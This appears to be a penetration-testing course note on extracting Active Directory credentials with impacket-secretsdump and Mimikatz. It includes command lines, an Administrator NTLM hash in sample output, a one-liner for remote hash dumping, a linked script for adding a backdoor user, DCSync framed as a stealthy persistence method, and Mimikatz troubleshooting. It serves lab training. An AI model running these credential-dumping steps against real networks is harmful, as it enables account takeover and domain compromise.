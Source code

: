 Once the two **.bak** files are moved to our Kali machine, we can continue extracting the credential materials with the secretsdump tool from the impacket suite. We'll supply the ntds database and the system hive via **-ntds** and **-system**, respectively along with the **LOCAL** keyword to parse the files locally.
```sh
kali@kali:~$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

...
[*] Reading and decrypting hashes from ntds.dit.bak
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
...
```

We managed to obtain NTLM hashes and Kerberos keys for every AD user, which can now be further cracked or used as-is through pass-the-hash attacks.

While these methods might work fine, they leave an access trail and may require us to upload tools. An alternative is to abuse AD functionality itself to capture hashes remotely from a workstation.

To do this, we could move laterally to the domain controller and run Mimikatz to dump the password hash of every user, using the DC sync method described in the previous Module, which can be misused as a less conspicuous persistence technique.

### Dump Hashes in Windows XP
0. Create a r4n$0m user using [this script](https://gist.github.com/A-Pisani/efa2a11cbf555e7e83c70c9406b730c6#file-win_useradd-bat).
1. From Kali:
    ```sh
    kali@kali:~$ impacket-secretsdump r4n$0m:password@$IP -outputfile hashes
    ```
## Mimikatz Troubleshooting
1. You are not running it as local Administrator. 
    ```cmd
    mimikatz # privilege::debug
    ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061
    ```
2. You need to install an older version of [mimikatz 2.1.1 for Win 10 1809-1803](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip) previous to 2.2.0
    ```cmd
    mimikatz # sekurlsa::logonpasswords
    ERROR kuhl_m_sekurlsa_acquireLSA ; Key import

    mimikatz # sekurlsa::logonpasswords
    ERROR kuhl_m_sekurlsa_acquireLSA ; Key import
    ```
3. You need to either use psexec to begin SYSTEM (or other tools) or elevate with `token::elevate` command to impersonate a SYSTEM token. Ref: https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump#online
    ```cmd
    mimikatz # lsadump::sam
    Domain : XOR-APP23
    SysKey : 05ac7ba0058f6806f2efa8f36d8854bd
    ERROR kull_m_registry_OpenAndQueryWithAlloc ; kull_m_registry_RegOpenKeyEx KO
    ERROR kuhl_m_lsadump_getUsersAndSamKey ; kull_m_registry_RegOpenKeyEx SAM Accounts (0x00000005)
    ```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname